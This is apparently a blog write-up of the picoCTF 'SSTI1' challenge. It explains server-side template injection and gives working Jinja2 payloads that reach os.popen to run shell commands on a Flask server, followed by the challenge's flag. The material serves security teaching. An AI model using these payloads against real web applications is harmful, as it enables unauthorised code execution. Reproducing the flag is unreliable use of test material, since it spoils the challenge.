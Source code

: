 ```yaml
---
layout: post
title: "SSTI1"
date: 2025-08-05
categories: [PicoCTF]
tags: [picoctf, webexploitation,Easy]
---
```



# 🧠 Challenge Name: **SSTI**

## 📝 Description
**I made a cool website where you can announce whatever you want! Try it out! I heard templating is a cool and modular way to build web apps!**

---

## 🤔 What is SSTI?

**SSTI (Server-Side Template Injection)** occurs when user input is insecurely embedded into a server-side template.  
This allows an attacker to **inject template code** and potentially execute arbitrary code on the server.

---

## 🧭 Step-by-Step Approach

### 1. **Open the Website**
Go to the challenge URL and observe how it behaves.

### 2. **Test User Input**
Type something in the search bar. You'll see that it **echoes back** exactly what you typed.  
➡️ This is a sign of **SSTI (Server-Side Template Injection)**.

---

### 3. **Identify the Backend Technology**
Use this command in your terminal:

```bash
curl -i http://rescued-float.picoctf.net:53913/
```

**Sample Output:**
```
HTTP/1.1 200 OK
Server: Werkzeug/3.0.3 Python/3.8.10
Date: Tue, 05 Aug 2025 15:04:50 GMT
Content-Type: text/html; charset=utf-8
```

➡️ This tells us the backend is likely using **Flask** with **Jinja2** (common in Python apps).

---

### 4. **Test for Template Injection**

Try injecting a basic expression:

```jinja2
{% raw %}{{7*7}}{% endraw %}
```

➡️ If the result is `49`, it confirms the input is evaluated by a **template engine** (like Jinja2), which means **SSTI exists**.

---

### 5. **Exploit SSTI to Read Server Files**

Try this in the search bar:

```jinja2
{% raw %}{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}{% endraw %}
```

This command lists files in the server directory. If you see a file like `flag`, continue to the next step.

---

### 6. **Read the Flag**

Now run this to get the flag:

```jinja2
{% raw %}{{config.__class__.__init__.__globals__['os'].popen('cat flag').read()}}{% endraw %}
```

✅ This prints the contents of the `flag` file on the website.

---

## 🧠 Payload Explanation

```jinja2
{% raw %}{{config.__class__.__init__.__globals__['os'].popen('cat flag').read()}}{% endraw %}
```

- `config`: a Flask object.
- `.__class__`: gets its class.
- `.__init__.__globals__`: accesses global variables (like imports).
- `['os']`: gets access to the `os` module.
- `.popen('cat flag').read()`: runs the `cat flag` command and reads the result.

This is **Remote Code Execution** through **SSTI** in a Python web app.

---

## 🚨 Real-World Impact

SSTI vulnerabilities are dangerous — if not mitigated, they allow attackers to **execute arbitrary code on the server**, potentially leading to full system compromise.

Always validate and sanitize user input in server-side template engines.

---

## 🏁 Result

**picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_5c985a9a}**

---